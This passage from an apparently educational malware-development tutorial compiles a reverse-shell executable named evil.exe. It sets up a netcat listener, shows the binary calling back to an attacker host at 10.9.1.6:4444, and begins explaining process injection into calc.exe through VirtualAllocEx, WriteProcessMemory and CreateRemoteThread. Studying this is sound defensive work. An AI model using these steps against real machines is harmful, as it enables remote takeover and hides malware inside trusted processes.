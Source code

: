 The only difference is the our payload.   
Let's check firstly.
Compile:
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![msfvenom](/assets/images/6/2021-09-18_20-35.png){:class="img-responsive"}

prepare listener:
```bash
nc -lvp 4444
```

and run from victim's machine:
```cmd
.\evil.exe
```

![run evil.exe](/assets/images/6/2021-09-18_20-39.png){:class="img-responsive"}

As you can see, everything is ok.

For investigating `evil.exe` we will use [Process Hacker](https://processhacker.sourceforge.io/downloads.php). Process Hacker is an open-source tool that will allow you to see what processes are running on a device, identify programs that are eating up CPU resources and identify network connections that are associated with a process. 

![process hacker evil.exe](/assets/images/6/2021-09-18_23-52.png){:class="img-responsive"}

Then in the `Network` tab we will see that our process establish connection to `10.9.1.6:4444` (attacker's host):
![process hacker evil.exe 2](/assets/images/6/2021-09-18_23-58.png){:class="img-responsive"}

So, let's go to inject our payload to process. For example, `calc.exe`. So, what you want is to pivot to a target process or in other words to make your payload executing somehow in another process on the same machine. For example in a `calc.exe`.

![injection process 1](/assets/images/6/injection-1.png){:class="img-responsive"}

The first thing is to allocates some memory inside your target process and the size of the buffer has to be at least of size of your payload:

![injection process 2](/assets/images/6/injection-2.png){:class="img-responsive"}

Then you copy your payload to the target process `calc.exe` into the allocated memory:

![injection process 3](/assets/images/6/injection-3.png){:class="img-responsive"}

and then "ask" the system to start executing your payload in a target process, which is `calc.exe`.

![injection process 4](/assets/images/6/injection-4.png){:class="img-responsive"}

So, let's go to code this simple logic.
Now the most popular combination to do this is using built-in Windows API functions which are implemented for debugging purposes. There are:    
    [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
    [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
    [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
